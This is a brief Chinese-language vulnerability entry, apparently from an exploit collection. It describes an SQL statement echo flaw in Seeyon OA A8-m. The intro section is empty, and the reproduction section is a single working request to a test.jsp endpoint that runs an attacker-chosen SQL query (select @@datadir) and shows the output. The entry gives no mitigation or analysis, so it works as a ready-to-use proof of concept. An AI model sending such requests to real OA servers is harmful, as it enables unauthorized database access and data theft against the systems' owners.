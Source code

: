 ```yaml
---
title: 致远OA A8-m 存在sql语句页面回显功能
id: zhfly3356
---
```


# 致远OA A8-m 存在sql语句页面回显功能

## 一、漏洞简介

## 二、漏洞影响

致远OA A8-m

## 三、复现过程

```
http://wwww.0-sec.org/yyoa/common/js/menu/test.jsp?doType=101&S1=select%20@@datadir 
```